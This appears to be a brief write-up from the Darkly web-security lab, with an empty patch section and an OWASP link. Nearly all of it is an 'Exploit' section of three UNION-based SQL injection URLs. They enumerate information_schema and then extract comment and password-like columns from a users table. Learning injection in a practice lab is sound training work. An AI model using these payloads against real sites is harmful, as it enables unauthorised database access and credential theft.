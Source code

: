 ## Exploit

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_SCHEMA,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_NAME,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20Commentaire,countersign%20FROM%20Member_Sql_Injection.users&Submit=Submit#




## Patch


## Resources

[OWASP SQL INJECTION](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)

